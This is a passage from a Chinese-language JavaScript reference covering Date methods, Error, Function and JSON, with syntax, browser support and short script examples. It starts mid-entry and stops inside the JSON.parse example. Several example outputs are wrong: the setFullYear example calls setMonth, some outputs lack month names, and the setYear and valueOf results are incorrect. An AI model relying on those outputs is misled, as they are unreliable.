**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setFullYear(year)`

### 描述

根据本地时间设置年份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改月份
aprilFools.setMonth(11);
// 并输出整个日期
document.write( aprilFools.toString() ); // Mon 01 2008 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.setHours(hoursVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setHours(hoursVal)`

### 描述

根据本地时间设置小时。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改小时
aprilFools.setHours(11);
// 并输出整个日期
document.write( aprilFools.toString() ); // Thu 01 2008 11:25:13 GMT-0700 (PDT)
</script>
```

# Date.setMilliseconds(msVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setMilliseconds(msVal)`

### 描述

根据本地时间设置毫秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改毫秒
aprilFools.setMilliseconds(88);
// 并输出整个日期
document.write( aprilFools.toString() ); // Thu 01 2008 16:25:13.88 GMT-0700 (PDT)
</script>
```

# Date.setMinutes(minVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setMinutes(minVal)`

### 描述

根据本地时间设置分钟。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改分钟
aprilFools.setMinutes(1);
// 并输出整个日期
document.write( aprilFools.toString() ); // Thu 01 2008 16:01:13 GMT-0700 (PDT)
</script>
```

# Date.setMonth(monthVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setMonth(monthVal)`

### 描述

根据本地时间设置月份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改月份
aprilFools.setMonth(11);
// 并输出整个日期
document.write( aprilFools.toString() ); // Mon 01 2008 16:25:13 GMT-0800 (PST)
</script>
```

# Date.setSeconds(secVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setSeconds(secVal)`

### 描述

设置日期的秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setSeconds(31);
// 输出整个日期
document.write( aprilFools.toString() ); // Thu May 01 2008 16:25:31 GMT-0700 (PDT)
</script>
```

# Date.setTime(msVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setTime(msVal)`

### 描述

根据自 1970 年 1 月 1 日 00:00:00 UTC 的毫秒数设置日期。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setTime(123434323);
// 输出整个日期
document.write( aprilFools.toString() ); // Fri Jan 02 1970 02:17:14 GMT-0800 (PST)
</script>
```

# Date.setUTCDate(dateVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCDate(dateVal)`

### 描述

根据协调世界时间 (UTC) 设置月份中的几。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCDate(22);
// 输出整个日期
document.write( aprilFools.toString() ); // Thu May 22 2008 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.setUTCFullYear(fullYearVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCFullYear(fullYearVal)`

### 描述

根据协调世界时间 (UTC) 设置指定日期的年份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCFullYear(2132);
// 输出整个日期
document.write( aprilFools.toString() ); // Thu May 01 2132 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.setUTCHours(hoursVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCHours(hoursVal)`

### 描述

根据协调世界时间 (UTC) 设置指定日期的小时。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCHours(11);
// 输出整个日期
document.write( aprilFools.toString() ); // Thu May 01 2008 04:25:13 GMT-0700 (PDT)
</script>
```

# Date.setUTCMilliseconds(msVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCMilliseconds(msVal)`

### 描述

根据协调世界时间 (UTC) 设置指定日期的毫秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCMilliseconds(11);
// 输出整个日期
document.write( aprilFools.toString() ); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.setUTCMinutes(minVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCMinutes(minVal)`

### 描述

根据协调世界时间 (UTC) 设置指定日期的分钟。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCMinutes(11);
// 输出整个日期
document.write( aprilFools.getUTCMinutes() ); // 11
</script>
```

# Date.setUTCMonth(monthVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCMonth(monthVal)`

### 描述

根据协调世界时间 (UTC) 设置指定日期的月份。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCMonth(11);
// 输出整个日期
document.write( aprilFools.getUTCMonth() ); // 11
</script>
```

# Date.setUTCSeconds(secVal)

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.setUTCSeconds(secVal)`

### 描述

根据协调世界时间 (UTC) 设置秒。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setUTCSeconds(11);
// 输出整个日期
document.write( aprilFools.getUTCSeconds() ); // 11
</script>
```

# Date.setYear(yearVal)

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0, ECMAScript 2.0

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.setYear(yearVal)`

### 描述

设置日期的年份。不符合 Y2K 标准。已废弃。请改用 `Date.setFullYear`。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 修改日期值
aprilFools.setYear(100);
// 输出整个日期
document.write( aprilFools.getYear() ); // 200
</script>
```

# Date.toDateString()

**标准:** JavaScript 1.5+, JScript 5.5+

**支持:** Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 8.0 (Gecko 1.7)+, Opera 4.0+

### 语法

`myDateInstance.toDateString()`

### 描述

以易读的格式返回日期的部分（例如：Thu Jan 8 2008）。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toDateString() ); // Thu May 01 2008
</script>
```

# Date.toGMTString()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0, ECMAScript 2.0

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.toGMTString()`

### 描述

将 Date 对象转换为字符串，使用 GMT 标准格式。已废弃。请改用 `Date.toUTCString()` 或 `Date.toLocaleString()`。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toGMTString() ); // Thu, 01 May 2008 23:25:13 GMT
</script>
```

# Date.toJSON()

**标准:** JScript 5.8+, ECMAScript 3.1+, JavaScript 1.8+

**支持:** Firefox 3.5+, Internet Explorer 8.0+

### 语法

`myDateInstance.toJSON()`

### 描述

将日期值转换为 JSON 兼容的格式。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.toJSON() ); // 2008-05-01T23:25:13Z
</script>
```

# Date.toLocaleDateString()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 3.0+, Safari 1.0+

### 语法

`myDateInstance.toLocaleDateString()`

### 描述

返回日期日期部分的字符串值。设计用于本地化重写。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toLocaleDateString() ); // 05/01/2008
</script>
```

# Date.toLocaleFormat(formatString)

**标准:** JavaScript 1.6+

**支持:** Firefox 1.5 (Gecko 1.8)+

### 语法

`var myFormattedDateString = myDateInstance.toLocaleFormat(formatString)`

### 描述

使用提供的格式将日期转换为字符串。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toLocaleFormat("%A, %B %e, %Y") ); // Thursday, May 1, 2008
</script>
```

# Date.toLocaleString()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.toLocaleString()`

### 描述

返回表示对象的字符串。此函数设计用于本地化目的重写。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toLocaleString() ); // Thu May 1 16:25:13 2008
</script>
```

# Date.toLocaleTimeString()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.toLocaleTimeString()`

### 描述

使用当前本地区域设置返回日期的时间部分的字符串值。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 以两种方式输出整个日期
document.write( aprilFools.toString() + "<br />"); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
document.write( aprilFools.toLocaleTimeString() ); // 16:25:13
</script>
```

# Date.toSource()

**标准:** JavaScript 1.3+

**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法

`myDateInstance.toSource()`

### 描述

返回表示对象的源代码字符串。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.toSource() + "<br />"); // (new Date(12096841309))
// 根据此创建一个新日期
var newDate = eval(aprilFools.toSource());
// 输出新日期
document.write( newDate.toString() ); // Thu May 01 2008 16:25:13
</script>
```

# Date.toString()

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 2.0+, Opera 4.0+, Safari 1.0+

### 语法

`myDateInstance.toString()`

### 描述

返回总结对象的字符串。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.toString() ); // Thu May 01 2008 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.toTimeString()

**标准:** JavaScript 1.4+, JScript 5.5+

**支持:** Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.5+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 5.0+

### 语法

`myDateInstance.toTimeString()`

### 描述

返回人类可读字符串格式的日期时间部分。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.toTimeString() ); // 16:25:13 GMT-0700 (PDT)
</script>
```

# Date.toUTCString()

**标准:** JavaScript 1.3+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

### 语法

`myDateInstance.toUTCString()`

### 描述

使用通用时间规范将日期转换为字符串。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.toUTCString() ); // Thu, 01 May 2008 23:25:13 GMT
</script>
```

# Date.UTC(year, month[, date[, hrs[, sec[, ms]]]])

**标准:** JavaScript 1.0+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法

`var noOfMS = Date.UTC(year, month[, date[, hrs[, sec[, ms]]]])`

### 描述

返回自 1970 年 1 月 1 日午夜 (UTC) (或 GMT) 到提供日期之间的毫秒数。

### 示例

```javascript
<script type="text/javascript">
var myDate = new Date(Date.UTC(96, 11, 1, 0, 0, 0));
// Sat Nov 30 1996 16:00:00 GMT-0800 (PST)
document.write( myDate.toString() );
</script>
```

# Date.valueOf()

**标准:** JavaScript 1.1+, JScript 3.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 4.0+, Opera 5.0+, Safari 1.0+

### 语法

`myDateInstance.valueOf()`

### 描述

返回对象的原始值。

### 示例

```javascript
<script type="text/javascript">
var aprilFools = new Date(2008, 4, 1, 16, 25, 13, 9);
// 输出日期
document.write( aprilFools.valueOf() ); // 120968413009
</script>
```

# Debug

**标准:** JScript 3.0+

**支持:** Internet Explorer 4.0+

### 语法

```javascript
Debug.write(string);
Debug.writeln(string);
```

### 描述

一个向调试控制台输出消息的 Internet Explorer 特有对象。

### 示例

```javascript
<script type="text/javascript">
var myCounter = 32;
Debug.write("The value of myCounter is " + myCounter);
</script>
```

# Enumerator

**标准:** JScript 3.0+

**支持:** Internet Explorer 4.0+

### 语法

`var myEnumObj = new Enumerator([collection])`

### 描述

允许集合中的项进行枚举。仅限 JScript。

### 示例

```javascript
<script type="text/javascript">
var myArray = new Array("apple", "orange", "tree", "couch", "veranda");
var eNum = new Enumerator(myArray); // 在数组上创建枚举器
var result = "";
for (;!eNum.atEnd();eNum.moveNext()) // 遍历我们的集合
{
  var x = eNum.item();
  result += x + ",";
}
document.write(result);
// 输出:
// apple,orange,tree,couch,veranda
</script>
```

# Error

**标准:** JavaScript 1.5+, JScript 5.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

### 语法

```javascript
// IE
var myError = new Error()
var myError = new Error([number])
var myError = new Error([number[, description]])

// Mozilla
var myError = new Error([message[, fileName[, lineNumber]]])
```

### 描述

所有异常的父对象。**属性列表** **方法列表**

### 示例

```javascript
<script type="text/javascript">
// 在 JavaScript (Mozilla) 中效果最好
var errorInstance = new Error("No worky");
document.write(errorInstance.toString() + "<br />"); // Moz: Error: No worky
// 在 JScript (Explorer) 中效果最好
errorInstance = new Error(200, "No worky");
document.write(errorInstance.description.toString()); // IE: No worky
</script>
```

## Error.description

**标准:** JScript 5.0+

**支持:** Internet Explorer 5.0+

### 语法

`myErrorInstance.description`

### 描述

错误的纯文本描述。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e)   // 打印 "[object Error]"。
    document.write(e.number)    // 打印 5009。
    document.write(e.description)  // 打印 "'y' is undefined"。
}
</script>
```

## Error.message

**标准:** JavaScript 1.5+, JScript 5.0+, ECMAScript 3.0+

**支持:** Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

### 语法

`myErrorInstance.message`

### 描述

错误的纯文本描述。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e.message)   // 打印 "y is undefined"
}
</script>
```

## Error.name

**标准:** JavaScript 1.5+, JScript 5.8+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 8.0+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

### 语法

`myErrorInstance.name`

### 描述

错误的名称。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e.name)    // 打印 "ReferenceError"
}
</script>
```

## Error.number

**标准:** JScript 5.0+

**支持:** Internet Explorer 5.0+

### 语法

`errorInstance.number`

### 描述

错误代码。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e)    // 打印 "[object Error]"。
    document.write(e.number & 0xFFFF)   // 打印 5009。
    document.write(e.description)    // 打印 "'y' is undefined"。
}
</script>
```

## Error.toSource()

**标准:** JavaScript 1.5+

**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法

`myErrorInstance.toSource()`

### 描述

返回表示对象源代码的字符串。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e.toString() + "<br />")   // 打印 "ReferenceError: y is not defined"
    var newError = eval(e.toSource());
    document.write(newError.toString()) // 打印 "ReferenceError: y is not defined"
}
</script>
```

## Error.toString()

**标准:** JavaScript 1.5+, JScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+

### 语法

`myErrorInstance.toString()`

### 描述

返回总结对象的字符串。

### 示例

```javascript
<script type="text/javascript">
try {
    x = y   // 引起错误。
} catch(e){   // 创建局部变量 e。
    document.write(e.toString() + "<br />");   // 打印 "ReferenceError: y is not defined"
}
</script>
```

# Function

**标准:** JavaScript 1.5+, JScript 5.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 5.0+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 7.0+, Safari 1.0+

### 语法

`new Function()`

### 描述

用于创建函数的构造函数。

### 示例

```javascript
<script type="text/javascript">
var add = new Function("a", "b", "return a + b");
document.write(add(2, 3)); // 打印 5
</script>
```

## Function.length

**标准:** JavaScript 1.1+, JScript 2.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法

`myFunction.length`

### 描述

函数期望的参数个数。

### 示例

```javascript
<script type="text/javascript">
function apple(appletype, appleweight) {}
document.write(apple.length); // 2
</script>
```

## Function.name

**标准:** JavaScript 1.5+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法

`myFunction.name`

### 描述

获取和设置 name 属性。

### 示例

```javascript
<script type="text/javascript">
function doSomethingCool() {}
document.write(doSomethingCool.name + "<br />"); // 输出 "doSomethingCool"
// 匿名函数的名称为空
var myOtherFunction = function() {}
document.write(myOtherFunction.name); // ""
</script>
```

## Function.apply(thisArg[, argsArray])

**标准:** JavaScript 1.3+, JScript 1.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 3.0+, Safari 1.0+

### 语法

`var fnRes = myFunction.apply(thisArg[, argsArray])`

### 描述

将另一个对象的方法应用到当前对象。

### 示例

```javascript
<script type="text/javascript">
function Person(name, age) {
    this.fname = name;
    this.fage = age;
    document.write("This is a " + age + " old person named " + name);
}
function Superhero(name, age, specialpower) {
    this.specialpower = specialpower;
    Person.apply(this, arguments);
    document.write(".. has special powers like ");
    // 检查 this.fname 属性是否已应用
    document.write(".. and don't forget his name is " + this.fname + ".");
}
Superhero("Mike Han", 26, "Foball");
// 这是一个名为 Mike Han 的 26 岁老人，拥有像 Foball 一样的特殊能力
// 别忘记他的名字是 Mike Han。
</script>
```

## Function.call(thisArg[, arg1[, arg2[, ...]]])

**标准:** JavaScript 1.3+, JScript 1.0+, ECMAScript 3.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 3+, Netscape Navigator 6.0 (Gecko 0.6)+, Opera 3.0+, Safari 1.0+

### 语法

`var myResult = funct.call(thisArg[, arg1[, arg2[, ...]]])`

### 描述

调用对象的方法，用另一个对象替换当前对象。

### 示例

```javascript
<script type="text/javascript">
function Person(name, age) {
    this.fname = name;
    this.fage = age;
    document.write("This is a " + age + " old person named " + name);
}
function Superhero(name, age, specialpower) {
    this.specialpower = specialpower;
    Person.call(this, name, age);
    document.write(".. has special powers like " + this.specialpower);
    // 检查 this.fname 属性是否已应用
    document.write(".. and don't forget his name is " + this.fname + ".");
}
Superhero("Mike Han", 26, "Foosball");
// 这是一个名为 Mike Han 的 26 岁老人，拥有像 Foosball 一样的特殊能力
// 别忘记他的名字是 Mike Han。
</script>
```

## Function.toSource()

**标准:** JavaScript 1.3+

**支持:** Firefox 1.0 (Gecko 1.7)+, Netscape Navigator 6.0 (Gecko 0.6)+

### 语法

`myFunction.toSource()`

### 描述

返回表示对象源代码的字符串。

### 示例

```javascript
<script type="text/javascript">
function Person(name, age) {
    this.fname = name;
    this.fage = age;
    document.write("This is a " + age + " old person named " + name);
}
// 创建源代码的备份
var pSource = Person.toSource();
// 输出它
document.write(Person.toSource() + "<br />");
// function Person(name, age) {this.fname = name;this.fage = age;document.write("This is a " + age + " old person named " + name);}
// 现在我们销毁该函数
Person = {};
// 我们查看源代码
document.write(Person.toSource() + "<br />"); // ({
// 现在我们恢复它
eval(pSource);
// 我们查看源代码
document.write(Person.toSource());
// function Person(name, age) {this.fname = name;this.fage = age;document.write("This is a " + age + " old person named " + name)}
</script>
```

## Function.toString()

**标准:** JavaScript 1.1+, JScript 2.0+, ECMAScript 1.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 3.0+, Safari 1.0+

### 语法

`myFunction.toString()`

### 描述

返回一个总结对象的字符串。

### 示例

```javascript
<script type="text/javascript">
function Person(name, age) {
    this.fname = name;
    this.fage = age;
    document.write("This is a " + age + " old person named " + name);
}
// 创建源代码的备份
var pSource = Person.toString();
document.write(pSource);
// function Person(name, age) {this.fname = name; this.fage = age; document.write("This is a " + age + " old person named " + name)}
</script>
```

## Function.valueOf()

**标准:** JScript 2.0+

**支持:** Google Chrome Beta+, Firefox 1.0 (Gecko 1.7)+, Internet Explorer 4.0+, Netscape Navigator 3.0+, Opera 7.0+, Safari 1.0+

### 语法

`myFunction.valueOf()`


### 描述
返回对象的原始值。

### 示例
```javascript
<script type="text/javascript">
function Person(name, age) {
    this.fname = name;
    this.fage = age;
    document.write("This is a " + age + " old person named " + name);
}
// 创建源代码的备份
var pSource = Person.valueOf();
document.write(pSource);
// Person(name, age) {this.fname = name; this.fage = age; document.write("This is a " + age + " old person named " + name)}
</script>
```

## JSON
**标准：** `JavaScript 1.8+`, `JScript 5.0+`, `ECMAScript 5+`
**支持：** `Firefox 3.5 (Gecko 1.9.1)+`, `Internet Explorer 8.0+`

## 语法
```javascript
JSON.parse(text [, reviver])
JSON.stringify(obj)
```

### 描述
提供了在 JavaScript 值和 JavaScript 对象表示 (JSON) 格式之间转换的方法。支持 Internet Explorer 8 和 Firefox 3.5。

## 示例
```javascript
<script type="text/javascript">
// 检查 JSON 对象是否存在
if (this.JSON) {
    // JSON 对象存在
    var dog = new Object();
    dog.name = "Jimmy";
    dog.breed = "German Shepherd";
    dog.owner = "David Smith";
    dog.awards = new Array("Fluffy Dog in Show","All Dogs, Coat", "Western Classic - Runner Up");
    // 现在我们创建一个过滤器来生成简化的 JSON 结构
    var dogfilter = new Array();
    dogfilter[0] = "name";
    dogfilter[1] = "breed";
    var jsontext = JSON.stringify(dog);
    document.write(jsontext + "<br />");
    // {"name":"Jimmy","breed":"German Shepherd","owner":"David Smith","awards":["Fluffy Dog in Show","All Dogs, Coat","Western Classic - Runner Up"]}
    json_text = JSON.stringify(dog, dogfilter);
    document.write(json_text + "<br />");
    // {"name":"Jimmy","breed":"German Shepherd"}
    // 现在我们通过在每个值后插入 HTML 换行符使其易读
    jsontext = JSON.stringify(dog, null, "<br />");
    document.write(jsontext + "<br />");
    /*
    {
      "name":"Jimmy",
      "breed":"German Shepherd",
      "owner":"David Smith",
      "awards": [
        "Fluffy Dog in Show",
        "All Dogs, Coat",
        "Western Classic - Runner Up"
      ]
    }
    */
}
</script>
```

## JSON.parse(jsonString)
**标准：** `JavaScript 1.8+`, `JScript 5.8+`, `ECMAScript 5+`
**支持：** `Firefox 3.5 (Gecko 1.9.1)+`, `Internet Explorer 8.0+`

### 语法
```javascript
JSON.parse(text [, reviver])
```

### 描述
将 JavaScript 对象表示 (JSON) 文本反序列化为 JavaScript 值。

### 示例
```javascript
<script type="text/javascript">
// 检查 JSON 对象是否存在
if (this.JSON) {
    // JSON 对象存在
    // 首先我们做一个简单的示例
    var jsontext = '{"dogname":"Smithy","owner":"Jason Smith","birthdate":"Sat Sep 20 12:21:55 PDT 2008","phone":["604-985-3476","604-932-1425"]}';
    var dog = JSON.parse(jsontext);
    var dogInfo = "Dog Name: " + dog.dogname + "<br />Owner: " + dog.owner;
    // 输出结果
    document.write(dogInfo + "<br />");
    // Dog Name: Smithy
    // Owner: Jason Smith
    // 现在是一个更复杂的示例，它使用 reviver 将字符串
    // 转换为正确的日期对象
    dog = JSON.parse(jsontext, birthdateReviver);
    function birthdateReviver(key, value) {
        var bDate;
        if (key == "birthdate") {
            bDate = new Date(value);
